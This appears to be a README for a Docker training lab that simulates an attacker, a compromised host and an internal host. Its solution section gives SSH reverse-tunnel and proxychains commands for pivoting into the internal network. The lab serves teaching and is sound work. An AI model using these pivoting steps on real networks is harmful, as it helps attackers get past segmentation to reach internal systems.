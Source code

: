 # proxy-demo

## Description
The docker-compose file here launches three machines with a network configuration for the proxy demo.

- proxy-atk: Simulates an external hacker host.
- proxy-ext: Simulates a compromised host that will initiate the tunnel
- proxy-int: Simulates an internal host that cannot be reached by proxy-atk without a tunnel

## Build and run Information
To build, use the docker-compose command:
```sh
docker-compose up --build
```

## Connection Information
To connect to the proxy-ext server, use the command:
```sh
ssh user@localhost -p 2225
```

## Solution
Once an SSH connection is established to proxy-ext, perform a regular ssh session back to proxy-atk.
This can be done with the command:
```sh
ssh attacker@localhost -p 2225
```

Once connected, attempt to curl http://192.168.2.3 . This should be unsuccessful. Exit the ssh session:
```sh
exit
```

Connect again but use the following command to establish a tunnel:
```sh
ssh -R 3434 attacker@localhost -p 2225
```

Now run the curl command again through proxychains:
```sh
proxychains curl http://192.168.2.3
```

A response is received demonstrating the external attacker system communicating to internal systems using the tunnel.

